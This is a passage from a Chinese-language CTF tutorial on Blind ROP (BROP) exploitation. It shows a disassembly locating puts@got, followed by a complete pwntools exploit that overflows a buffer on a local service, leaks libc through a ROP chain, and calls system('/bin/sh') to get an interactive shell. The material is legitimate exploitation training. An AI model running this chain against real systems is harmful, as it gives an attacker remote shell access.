    seg000:0000000000400560 ; ---------------------------------------------------------------------------
    seg000:0000000000400560                 jmp     qword ptr cs:601018h
    seg000:0000000000400566 ; ---------------------------------------------------------------------------
    seg000:0000000000400566                 push    0
    seg000:000000000040056B                 jmp     loc_400550
    seg000:000000000040056B ; ---------------------------------------------------------------------------

这说明，puts@got的地址为0x601018。

程序利用
^^^^^^^^

.. code:: python

    ##length = getbufferflow_length()
    length = 72
    ##stop_gadget = get_stop_addr(length)
    stop_gadget = 0x4006b6
    ##brop_gadget = find_brop_gadget(length,stop_gadget)
    brop_gadget = 0x4007ba
    rdi_ret = brop_gadget + 9
    ##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
    puts_plt = 0x400560
    ##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
    puts_got = 0x601018

    sh = remote('127.0.0.1', 9999)
    sh.recvuntil('password?\n')
    payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
        stop_gadget)
    sh.sendline(payload)
    data = sh.recvuntil('\nWelCome', drop=True)
    puts_addr = u64(data.ljust(8, '\x00'))
    libc = LibcSearcher('puts', puts_addr)
    libc_base = puts_addr - libc.dump('puts')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('str_bin_sh')
    payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
        system_addr) + p64(stop_gadget)
    sh.sendline(payload)
    sh.interactive()

**参考阅读**

-  http://ytliu.info/blog/2014/09/28/blind-return-oriented-programming-brop-attack-gong-ji-yuan-li/
-  http://bobao.360.cn/learning/detail/3694.html
-  http://o0xmuhe.me/2017/01/22/Have-fun-with-Blind-ROP/

